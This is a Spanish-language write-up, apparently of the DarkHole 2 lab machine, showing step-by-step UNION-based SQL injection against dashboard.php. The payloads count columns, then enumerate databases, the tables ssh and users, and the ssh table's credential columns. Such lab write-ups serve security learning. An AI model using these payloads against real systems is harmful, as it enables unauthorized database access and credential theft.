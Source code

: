 Solicitud modificada:
```
GET /dashboard.php?id=2 HTTP/1.1
```

![[darkhole_2.12.png]]

Respuesta: 200 OK. Se accedió al perfil de otro usuario con campos vacíos.

**Paso 2 - Conteo de columnas:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+order+by+6--+- HTTP/1.1
```

Se identificaron 6 columnas activas mediante pruebas incrementales hasta error 500.

**Paso 3 - Identificación de campos inyectables:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,3,4,5,6--+- HTTP/1.1
```

![[darkhole_2.13.png]]

Los campos 2, 3, 5 y 6 son inyectables y se muestran en la respuesta.

**Paso 4 - Enumeración de bases de datos:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+- HTTP/1.1
```

![[darkhole_2.14.png]]

Bases de datos identificadas: mysql, information_schema, performance_schema, sys, darkhole_2 (objetivo).

**Paso 5 - Enumeración de tablas en darkhole_2:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- HTTP/1.1
```
![[darkhole_2.15.png]]

Tablas identificadas: ssh, users.

**Paso 6 - Enumeración de columnas en tabla ssh:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- HTTP/1.1
```
![[darkhole_2.16.png]]
	Columnas en tabla ssh: id, user, pass.
